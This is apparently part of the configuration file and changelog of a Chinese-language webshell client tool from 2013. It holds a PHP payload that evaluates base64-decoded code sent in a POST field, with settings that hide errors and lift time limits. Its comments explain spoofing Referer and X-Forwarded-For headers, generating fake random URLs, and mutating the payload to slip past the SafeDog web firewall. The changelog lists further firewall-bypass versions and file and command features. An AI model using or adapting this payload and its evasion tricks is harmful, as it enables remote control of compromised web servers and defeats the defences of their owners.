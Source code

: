 	PHP_POST_DATA==@eval(base64_decode($_POST[z0]));&z0=

	PHP_POST_Z0_DATA=@ini_set("display_errors","0");@set_time_limit(0);@set_magic_quotes_runtime(0);
	[/POST]
	[RandType]
	article
	news
	type
	index
	view
	[/RandType]

	##################################################
	#以下是说明
	请严格保持该格式，大小写不一样
	Referer 为1 则程序自动添加
	X-Forwarded-For 为1 则程序自动随机生成添加
	如果要自己手动添加其固定值，请设为0，后在[Headers]里添加即可。
	[POST]里为POST的部分数据，可自行变异这段代码，过安全狗等，很灵活的哦～
	%nPageCode% 为程序需要处理的编码，请保留
	%szBase64EvalCode% 为程序需要处理的执行代码，请保留
	[RandType]里为伪造随机URL的列表，格式如：?/article/666666.html
	如果没有数据则不使用，建议多加一些
	默认(是指没有INI配置文件的情况下)如上内容
*/

------------------------------------------------------------
------------------------------------------------------------
------------------------------------------------------------

2013.12.03
*	本地数据库单引号
*	CMD选择所有，任意键覆盖
+	FileSave CTRL+A

2013.12.07
*	JSP 传递没有 UrlEnCode
+	增加文件夹下载
*	站点管理，光标URL全选
*	szMyBase64Encode.Replace("+","%2B");

2013.12.09
+	增加 HTTP 错误显示
*	修正下载目录，win linux / \
*	修正'\0'格式化发生的截断

2013.12.10
+	TAB标签OK
*	ASPX脚本编码

2013.12.11
*	TAB的X范围加大
+	PHP脚本过安全狗

2013.12.12
*	eval preg_replace均可以使用过狗版本	chr(45).
+	稍微完善一下状态栏
